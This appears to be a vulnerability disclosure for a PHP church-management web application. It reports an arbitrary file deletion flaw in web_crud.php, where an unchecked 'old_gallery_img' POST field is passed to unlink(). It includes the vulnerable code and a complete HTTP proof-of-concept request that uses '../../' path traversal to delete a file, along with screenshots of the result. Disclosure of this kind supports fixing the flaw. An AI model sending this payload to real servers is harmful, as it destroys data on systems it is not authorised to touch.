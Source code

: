 ### Vulnerability file address

In line 392 of `church/admin/app/web_crud.php`, `@unlink("../../assets/images/" . $_POST['old_gallery_img']);`,` $_POST['old_gallery_img']` parameters have not been restricted, which causes any file to be deleted

```php
if ($_FILES['galleryphoto']['tmp_name'] != '') {
            $filepath = "../../assets/images/" . generateUniqueFileName($_FILES["galleryphoto"]["name"]);

            if (move_uploaded_file($_FILES["galleryphoto"]["tmp_name"], $filepath)) {
                $img3 = basename($filepath);
                @unlink("../../assets/images/" . $_POST['old_gallery_img']);
            }
        }
```

### POC

```http
POST /church/admin/app/web_crud.php HTTP/1.1
Host: www.church.net
Connection: close
Cookie: PHPSESSID=hl5noegsdjn1ru7skoi8tmqco3
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Length: 381

------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="update6"

1
------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="old_gallery_img"

../../14.txt
------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="galleryphoto";filename="aaa.php"

this is test
------WebKitFormBoundaryTZGvWJmfBtMK9O8p--
```

### Attack results pictures

First, we create a `14.txt` file in the `church/` directory

![image-20250505160623982](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505051606029.png)

Then we execute the above poc to attack

![image-20250505160835609](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505051608642.png)

Files are deleted after the attack is successful

![image-20250505160853432](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505051608476.png)